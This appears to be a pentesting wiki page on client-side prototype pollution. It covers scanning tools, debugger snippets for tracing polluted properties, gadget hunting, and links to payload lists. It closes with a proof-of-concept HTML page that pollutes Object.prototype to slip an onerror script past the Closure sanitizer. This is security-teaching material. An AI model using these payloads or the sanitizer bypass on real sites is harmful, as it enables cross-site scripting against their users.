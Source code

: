 # Client Side Prototype Pollution

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## Discovering using Automatic tools

The tools [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **and** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) can be used to **find prototype pollution vulnerabilities**.

Moreover, you could also use the **browser extension** [**PPScan**](https://github.com/msrkp/PPScan) to **automatically** **scan** the **pages** you **access** for prototype pollution vulnerabilities.

### Debugging where a property is used <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
    console.trace();
    return 'test';
}})
```
{% endcode %}

### Finding the root cause of Prototype Pollution <a href="#id-5530" id="id-5530"></a>

Once a prototype pollution vulnerability has been identified by any of the tools, and if the code is not overly complex, you might find the vulnerability by searching for keywords such as `location.hash`, `decodeURIComponent`, or `location.search` in the Chrome Developer Tools. This approach allows you to pinpoint the vulnerable section of the JavaScript code.

For larger and more complex codebases, a straightforward method to discover the vulnerable code involves the following steps:

1. Use a tool to identify a vulnerability and obtain a payload designed to set a property in the constructor. An example provided by ppmap might look like: `constructor[prototype][ppmap]=reserved`.
2. Set a breakpoint at the first line of JavaScript code that will execute on the page. Refresh the page with the payload, pausing the execution at this breakpoint.
3. While the JavaScript execution is paused, execute the following script in the JS console. This script will signal when the 'ppmap' property is created, aiding in locating its origin:

```javascript
function debugAccess(obj, prop, debugGet=true){

    var origValue = obj[prop];

    Object.defineProperty(obj, prop, {
        get: function () {
            if (debugGet)
                debugger;
            return origValue;
        },
        set: function(val) {
            debugger;
            origValue = val;
        }
    });

};

debugAccess(Object.prototype, 'ppmap')
```

4. Navigate back to the **Sources** tab and select “Resume script execution”. The JavaScript will continue executing, and the 'ppmap' property will be polluted as expected. Utilizing the provided snippet facilitates the identification of the exact location where the 'ppmap' property is polluted. By examining the **Call Stack**, different stacks where the pollution occurred can be observed.

When deciding which stack to investigate, it is often useful to target stacks associated with JavaScript library files, as prototype pollution frequently occurs within these libraries. Identify the relevant stack by examining its attachment to library files (visible on the right side, similar to an image provided for guidance). In scenarios with multiple stacks, such as those on lines 4 and 6, the logical choice is the stack on line 4, as it represents the initial occurrence of pollution and thereby the root cause of the vulnerability. Clicking on the stack will direct you to the vulnerable code.

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Finding Script Gadgets

The gadget is the **code that will be abused once a PP vulnerability is discovered**.

If the application is simple, we can **search** for **keywords** like **`srcdoc/innerHTML/iframe/createElement`** and review the source code and check if it l**eads to javascript execution**. Sometimes, mentioned techniques might not find gadgets at all. In that case, pure source code review reveals some nice gadgets like the below example.

### Example Finding PP gadget in Mithil library code

Check this writeup: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Recompilation of payloads for vulnerable libraries

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## HTML Sanitizers bypass via PP

[**This research**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) shows PP gadgets to use to **bypass the sanizations** provided by some HTML sanitizers libraries:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**

```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);
          
  document.body.append(node);
</script>
```

## References

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

